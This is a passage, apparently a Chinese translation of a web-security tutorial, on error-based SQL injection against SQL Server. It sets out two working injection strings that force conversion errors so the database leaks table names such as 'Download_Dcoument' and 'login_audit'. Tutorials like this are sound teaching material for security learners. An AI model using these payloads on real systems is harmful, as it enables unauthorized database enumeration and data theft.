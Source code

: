 完整的错误消息

**注**:基于错误的 SQLi 仅在向用户显示错误消息时起作用。

a)使用查询:`‘ and 1=convert(int,(select top 1 table_name from information_schema.tables))--`

上面的查询将从数据库中检索 top **table_name** 。

请注意值“Download_Dcoument ”,这是我们获取的 table_name。

![](img/369c0cc166a863c11a044c086892d022.png)

图:a

b)现在使用查询:`‘ and 1=convert(int,(select top 1 table_name from information_schema.tables where table_name not in (‘Download_Dcoument’)))--`

上述查询将从数据库中检索下一个 top **table_name** 。

请注意值“login_audit ”,这是我们获取的表名。

